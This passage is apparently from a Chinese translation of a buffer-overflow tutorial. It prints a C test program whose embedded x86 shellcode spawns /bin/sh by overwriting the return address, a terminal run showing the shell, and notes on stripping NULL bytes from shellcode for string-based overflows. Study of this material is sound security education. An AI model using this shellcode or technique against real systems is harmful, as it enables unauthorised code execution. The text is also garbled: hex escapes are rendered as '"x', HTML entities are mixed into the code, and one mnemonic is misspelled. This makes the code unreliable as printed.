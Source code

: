 testsc.c

------------------------------------------------------------------------------

char shellcode[] =

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xeb"x2a"x5e"x89"x76"x08"xc6"x46"x07"x00"xc7"x46"x0c"x00"x00"x00"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""x00"xb8"x0b"x00"x00"x00"x89"xf3"x8d"x4e"x08"x8d"x56"x0c"xcd"x80"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xb8"x01"x00"x00"x00"xbb"x00"x00"x00"x00"xcd"x80"xe8"xd1"xff"xff"

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;""xff"x2f"x62"x69"x6e"x2f"x73"x68"x00"x89"xec"x5d"xc3";

void main() {

&nbsp; &nbsp;int *ret;

&nbsp; &nbsp;ret = (int *)&amp;ret + 2;

&nbsp; &nbsp;(*ret) = (int)shellcode;

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o testsc testsc.c
  
[aleph1]$ ./testsc

$ exit
  
[aleph1]$

------------------------------------------------------------------------------

&nbsp; &nbsp; 成了! 但是这里还有一个障碍, 在多数情况下, 我们都是试图使一个字符缓冲区溢出.

那么在我们shellcode中的任何NULL字节都会被认为是字符串的结尾, 复制工作就到此为

止了. 对于我们的破解工作来说, 在shellcode里不能有NULL字节. 下面来消除这些字节,

同时把代码精简一点.

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;Problem instruction:&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;Substitute with:

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;--------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; xorl&nbsp; &nbsp;%eax,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;molv&nbsp; &nbsp;$0x0,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; movb&nbsp; &nbsp;%eax,0x7(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;movl&nbsp; &nbsp;%eax,0xc(%esi)
